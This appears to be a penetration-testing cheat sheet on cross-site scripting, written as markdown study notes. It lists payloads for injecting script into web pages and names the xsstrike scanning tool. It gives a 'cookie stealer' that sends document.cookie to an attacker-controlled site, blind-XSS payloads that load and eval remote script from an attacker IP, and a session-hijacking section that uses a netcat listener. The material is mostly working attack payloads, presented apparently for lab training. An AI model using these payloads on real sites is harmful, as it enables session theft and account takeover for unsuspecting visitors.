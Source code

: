 Test with HTML first
```html
# Should appear as a heading on the page
<h1>test</h1>
```
Test with javascript
```javascript
# Should pop the print dialog for every user that visits the page.
<script>print(1)</script>

# Tries to pring the session cookie
<script>print(document.cookie)</script>

# Common Cookie Stealer
<script> var i = new Image; i.src="<Your website>/?"+document.cookie;</script>
```
### xsstrike.py
```bash
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 
```
### Manual
Manually test payloads against input fields
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
[PayloadBox](https://github.com/payloadbox/xss-payload-list)

### Code Review
Review the source code for the page and the JS in Developer Tools

## Session Hijacking (Stealing Session Cookie)
### Blind XSS Detection
Use a payload that will send a request back to our webserver
Payloads:
```html
<script src="http://OUR_IP/script.js"></script>
```
Change the script name to the field we are testing
```html
<script src="http://OUR_IP/username"></script>
```
If we get a request for /username, then we know that field is vulnerable

Examples from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss)
```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```
### The Session Hijack
We need code to send the session cookie back to our listener(nc or php(same as above))
More Examples from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc)
